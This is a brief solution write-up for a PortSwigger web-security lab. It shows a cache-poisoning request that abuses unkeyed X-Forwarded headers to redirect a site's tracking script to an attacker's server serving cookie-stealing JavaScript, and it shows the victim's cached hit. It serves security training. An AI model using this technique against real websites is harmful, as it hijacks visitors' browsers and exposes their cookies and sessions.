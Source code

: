# [Lab: Web cache poisoning with multiple headers](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-multiple-headers)

## Lab

This lab contains a web cache poisoning vulnerability that is only exploitable when you use multiple headers to craft a malicious request. A user visits the home page roughly once a minute. To solve this lab, poison the cache with a response that executes `alert(document.cookie)` in the visitor's browser.

## Analysis

unkeyed-headers: `X-Forwarded-Scheme` and `X-Forwarded-Host`

## Solutions

craft response at exploit-server:

- file: `/resources/js/tracking.js`
- body: `alert(document.cookie)`

cache poisoning:

```http
GET /resources/js/tracking.js HTTP/1.1
Host: id.web-security-academy.net
X-Forwarded-Scheme: http
X-Forwarded-Host: exploit-id.exploit-server.net
Connection: close

HTTP/1.1 302 Found
Location: https://exploit-id.exploit-server.net/resources/js/tracking.js
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Connection: close
Content-Length: 0
```

What will happen on the victim's side:

```http
GET / HTTP/1.1
Host: 0a4f00840335e2bec05e726800c20001.web-security-academy.net

HTTP/1.1 200 OK

<script type="text/javascript" src="/resources/js/tracking.js">
```

```http
GET /resources/js/tracking.js HTTP/1.1
Host: 0a4f00840335e2bec05e726800c20001.web-security-academy.net

HTTP/1.1 302 Found
Location: https://exploit-0ace00a1034fe28cc0e4716701530056.exploit-server.net/resources/js/tracking.js
Cache-Control: max-age=30
Age: 22
X-Cache: hit
Connection: close
Content-Length: 0
```

=> boom, solved.
